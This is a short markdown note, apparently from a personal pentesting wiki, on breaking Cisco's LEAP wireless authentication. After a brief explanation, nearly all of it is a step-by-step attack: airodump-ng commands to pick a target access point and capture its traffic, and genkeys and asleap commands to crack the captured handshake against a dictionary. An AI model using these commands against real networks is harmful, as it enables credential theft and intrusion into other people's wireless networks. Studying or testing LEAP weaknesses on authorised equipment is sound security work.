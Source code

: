 ```yaml
---
title: LEAP
---
```


## What is this about?
Lightweight Extensible Authentication Protocol, which is Cisco's DIY version of MS-CHAP. 

## Step 0
Read [this](https://en.wikipedia.org/wiki/Lightweight_Extensible_Authentication_Protocol) and [that](https://freeradius.org/rfc/leap.txt)

## Lets oneshot this

### Dumping traffic
Last time I checked LEAP was as used as much as WEP, so yeah this is going to be a short one!

Get your target's info with a simple
```
airodump-ng mon0
```
Get the channel and BSSID and set it in the following command to whatever your target is
```
airodump-ng -c 2 --bssid 00:11:22:33:44:55 -w /tmp/potato.cap mon0
```
You can run this directly on asleap with the -i option though, this is just an extra step to have logs and target a single AP...

### Breaking LEAP

Get AsleaP by running a
```
git clone https://github.com/joswr1ght/asleap
```
Generate your hashes + indexes with genkeys if you need to.
```
./genkeys -r your-dictionary -f /path/to/hashes -n /path/to/indexes
```
Now run the following line every so often 
```
./asleap -r /tmp/potato.cap -f /path/to/hashes -n /path/to/indexes -v
```
Go watch some TV and come back for the next run...